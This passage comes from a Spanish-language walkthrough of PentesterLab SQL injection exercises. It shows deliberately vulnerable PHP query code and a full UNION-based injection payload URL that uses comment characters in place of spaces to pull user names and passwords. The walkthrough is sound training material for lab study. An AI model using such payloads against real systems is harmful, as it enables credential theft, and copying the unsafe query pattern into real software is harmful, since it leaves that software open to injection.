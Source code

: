 ```php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
    require '../footer.php';
?>
```
Por lo que vamos a poder usar los caracteres **/\*\*/** (comentario) de antes para volver a inyectar:

PAYLOAD:
```
http://pentesterlab/sqli/example3.php?name=root'/**/union/**/select/**/1,(select/**/name/**/from/**/users/**/limit/**/3,1),(select/**/passwd/**/from/**/users/**/limit/**/3,1),4,5/**/and/**/'1'='2
```

## Ejercicio 4

A partir de ahora ya empiezan a trabajárselo un poquito más y, aunque obsoleta desde MySQL 5.5.0, utilizan la función "mysql_real_escape_string" para prevenir las inyecciones de los siguientes caracteres: \x00, \n, \r, \ , ', " y \x1a.+

Servidor
```php
<?php
  require_once('../header.php');
  require_once('db.php');
  //PAY ATTENTION HERE -------------------------------
  $sql="SELECT * FROM users where id=";
    $sql.=mysql_real_escape_string($_GET["id"])." ";
    $result = mysql_query($sql);
// -------------------------------------------------

    if ($result) {
        ?>
        <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>

        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
    require '../footer.php';
?>
```
